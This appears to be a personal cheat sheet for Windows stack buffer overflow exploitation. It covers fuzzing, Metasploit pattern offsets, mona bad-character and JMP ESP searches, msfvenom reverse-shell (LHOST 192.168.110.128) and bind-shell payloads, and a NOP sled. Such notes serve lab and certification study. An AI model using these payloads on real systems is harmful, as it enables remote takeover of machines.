 # Buffer Overflow

## 1 - Find the access violation

```
A * 30000
```
> Access Violation 41414141

## 2 - Find EIP using pattern (-q EIP address)

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 30000 > ~/Desktop/mp3_bufferoverflow_pattern.txt
```
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 48386B48 -l 30000
```

## 3 - Find bad char

```
!mona bytearray -cpb '\x00\x09\x0a’
```
```
!mona compare -f C:\logs\<app>\bytearray.bin -a 000FF730
```

## 4 - Find JMP ESP
- Address cannot have bad char
- Consider MSVCP60.dll and kernetl32.dll

```
!mona jump -r ESP
```

## 5 - Create shell code without bad char

reverse shell
```
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=192.168.110.128 LPORT=4444 -b '\x00\x09\x0a' -f python -v shell
```
bind shell
```
msfvenom -a x86 --platform windows -p windows/shell_bind_tcp LPORT=4444 -e x86/alpha_mixed -b '\x00' BufferRegister=ESP -f python -v shell
```

## 6 - Place shell later after ESP

```
buffer += b'\x90' * 10
```